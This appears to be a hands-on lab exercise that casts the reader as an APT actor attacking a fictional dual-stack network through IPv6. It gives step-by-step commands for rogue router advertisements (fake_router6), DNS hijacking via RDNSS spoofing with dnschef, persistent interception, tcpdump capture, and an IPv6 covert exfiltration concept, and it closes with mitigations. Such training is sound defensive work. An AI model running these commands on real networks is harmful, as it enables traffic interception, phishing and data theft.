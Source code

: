 # The IPv6 Shadow Takeover

Objective: Act as an APT actor (`APT-66`, "Shadow6") to exploit the pervasive but often overlooked IPv6 attack surface. You will use rogue router advertisements to hijack traffic, spoof DNS, and establish a persistent foothold, all while evading traditional IPv4-focused security measures.

Scenario: The OpenHands International network is dual-stack (has IPv4 and IPv6 enabled). However, their network monitoring and security policies are primarily focused on IPv4. Your goal is to exploit IPv6 auto-configuration to redirect and intercept victim traffic.

## Phase 1: Reconnaissance - Discovering the Dual-Stack Network

Goal: Confirm IPv6 is enabled on the network and map the IPv6 addressing scheme.

Instructions:

1.  Access Your Foothold:
    *   You have physical access to the OpenHands office network. Start on your attacker VM.
    *   Command: `ssh volunteer@<attacker_vm_ip>`
    *   Password: `[Provided by Lab Instructor]`

2.  Check for IPv6 Connectivity:
    *   Determine your own IPv6 address and default gateway. The presence of a `scope global` address indicates IPv6 is active.
    *   Command: `ip -6 addr show` and `ip -6 route show default`
    *   Finding: What is your IPv6 Global Address? (It will start with `2xxx:` or `fdxx:`).
    *   Your IPv6 Address: `[DISCOVER THIS]`
    *   IPv6 Default Gateway: `[DISCOVER THIS]` - Note it as `LEGITIMATE_RA`.

3.  Discover Other IPv6 Hosts:
    *   Identify the local IPv6 subnet prefix (the first 64 bits of your address). Use the `alive6` tool from the `thc-ipv6` toolkit to find other hosts.
    *   Command: `alive6 eth0`
    *   Finding: This will list IPv6 addresses of other hosts on the local link. Note one as `VICTIM_IPV6`.

4.  Identify the Legitimate Router:
    *   Use `dump_router6` to listen for Router Advertisement (RA) messages from the legitimate gateway.
    *   Command: `dump_router6 eth0`
    *   Finding: Note the source IPv6 address of the legitimate router. It should match your `LEGITIMATE_RA`.

Checkpoint: You have confirmed IPv6 is active and have identified key targets: the legitimate router and a victim host.

## Phase 2: Attack - Rogue Router Advertisement (MITM)

Goal: Become a malicious IPv6 router on the network to trick hosts into sending you their traffic.

Instructions:

1.  Enable IPv6 Forwarding:
    *   Configure your attacker machine to forward IPv6 packets, just like in the IPv4 MITM attack.
    *   Command: `sudo sysctl -w net.ipv6.conf.all.forwarding=1`

2.  Launch a Rogue Router Advertisement:
    *   Use `fake_router6` to impersonate a legitimate router. This will tell hosts on the network to use your machine as their default gateway for IPv6.
    *   Command:
        ```bash
        sudo fake_router6 eth0 <ipv6_prefix>/64
        ```
        *Replace `<ipv6_prefix>` with the first 64 bits of the network prefix you discovered in Phase 1 (e.g., `2001:db8:abcd:1234`).*

3.  Verify the attack is working:
    *   On a victim machine (ask your instructor for access), check its IPv6 routing table after your attack runs for a moment.
    *   Command on Victim (simulated): `ip -6 route show default`
    *   Finding: The victim should now have *two* default routes: one to the legitimate router and one to your attacker machine. IPv6 will often prefer the most recently received RA.
    *   Victim's New Default Route: `default via [YOUR_IPV6_LINK_LOCAL] dev eth0 ...`

Checkpoint: You have successfully poisoned the victim's IPv6 routing table. A portion of their IPv6 traffic is now being sent to your machine.

## Phase 3: DNS Hijacking via RDNSS

Goal: Use the rogue RA messages to also poison the victim's DNS settings, redirecting them to a malicious server you control.

Instructions:

1.  Set Up a Malicious DNS Server:
    *   On your attacker machine, configure a simple DNS server that logs all queries and returns spoofed answers. We'll use `dnschef`.
    *   Command: `sudo dnschef --ipv6 --fakeipv6=<your_ipv6_address> --interface=::0 --port=53`

2.  Advertise Your Rogue DNS Server:
    *   Modify your rogue RA attack to include the Recursive DNS Server (RDNSS) option, pointing to your attacker machine.
    *   Command: Use a more advanced tool like `thc-ipv6`'s `fake_dns6d` or `fake_router26` which combines RA and RDNSS spoofing.
    *   Example:
        ```bash
        # This command advertises yourself as a router AND the DNS server
        sudo fake_router26 eth0 <ipv6_prefix>/64 <your_ipv6_address>
        ```

3.  Trigger and Verify DNS Redirection:
    *   On the victim machine, try to resolve a domain name.
    *   Command on Victim (simulated): `nslookup www.openhands-internal.org`
    *   Finding: The `nslookup` should show that the DNS query was answered by *your* IPv6 address. The result IP should also be your attacker IP.
    *   DNS Server Used by Victim: `[YOUR_IPV6_ADDRESS]`

Checkpoint: You now control the victim's IPv6 default gateway *and* their DNS resolver. You can intercept and manipulate their traffic and direct them to phishing sites.

## Phase 4: Exploiting Privacy Extensions for Persistence

Goal: IPv6 Privacy Extensions (RFC 4941) generate temporary addresses. We will exploit this to maintain access even if the victim's primary address changes.

Instructions:

1.  Scan for Temporary Addresses:
    *   The victim host will have multiple IPv6 addresses: a stable one and temporary ones for outbound connections.
    *   Use `passive_discovery6` to silently monitor traffic and map all of the victim's addresses to its MAC address.
    *   Command: `sudo passive_discovery6 eth0`

2.  Target the Stable Address:
    *   For persistence, focus on the victim's stable, link-local address (derived from its MAC address) or its static address. This address is less likely to change.
    *   Finding: What is the victim's stable link-local address? (It will start with `fe80::` and be based on its MAC).
    *   Victim's Stable LL Address: `[DISCOVER THIS]`

3.  Maintain Rogue Advertisements:
    *   Your `fake_router6` attack is continuous. As long as it runs, any new IPv6 address the victim generates will receive your malicious RA and will use your machine as its gateway. This ensures persistence even as temporary addresses rotate.

Checkpoint: You have a persistent MitM position against the victim host, regardless of its changing IPv6 addresses.

## Phase 5: The Stealthy Exfiltration

Goal: Use your position to intercept specific traffic or create a covert channel.

Instructions:

1.  Intercept Plaintext Traffic:
    *   Just like in IPv4, use `tcpdump` to capture traffic flowing through your machine.
    *   Command: `sudo tcpdump -i eth0 -w ipv6_capture.pcap ip6 host <VICTIM_IPV6> and not port 53`
    *   *We filter out DNS port 53 because we are already logging those queries separately with `dnschef`.*

2.  Create a IPv6 Covert Channel (Optional Bonus):
    *   The large address space of IPv6 can be abused for data exfiltration. Tools like `6exfil` can encode data within the IPv6 address fields of seemingly legitimate packets.
    *   Concept: Instead of sending a normal packet to `2001:db8::1`, you send one to `2001:db8::<encoded_data>`. This is highly stealthy.

Final Report: Document all the `[DISCOVER THIS]` fields. Explain why IPv6 presents a significant blind spot for many organisations. Propose two key mitigations:
1.  RA Guard: Implement Router Advertisement Guard on network switches to drop malicious RAs from unauthorized ports.
2.  DHCPv6 Snooping: Use DHCPv6 Snooping to prevent rogue DHCPv6 servers and enforce legitimate IPv6 configuration.